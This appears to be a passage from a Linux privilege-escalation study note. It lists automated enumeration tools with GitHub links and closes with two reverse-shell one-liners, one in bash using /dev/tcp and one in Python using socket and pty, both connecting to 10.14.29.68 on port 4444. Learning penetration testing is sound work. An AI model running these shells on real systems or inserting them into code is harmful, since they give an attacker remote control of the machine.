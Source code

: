 ### Automated Enum Tools

Several tools can help you save time during the enumeration process. These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

The target system’s environment will influence the tool you will be able to use. For example, you will not be able to run a tool written in Python if it is not installed on the target system. This is why it would be better to be familiar with a few rather than having a single go-to tool.

-   **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
-   **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
-   **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
-   **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
-   **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)



bash -i >& /dev/tcp/10.14.29.68/4444 0>&1

export RHOST="10.14.29.68";export RPORT=4444;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'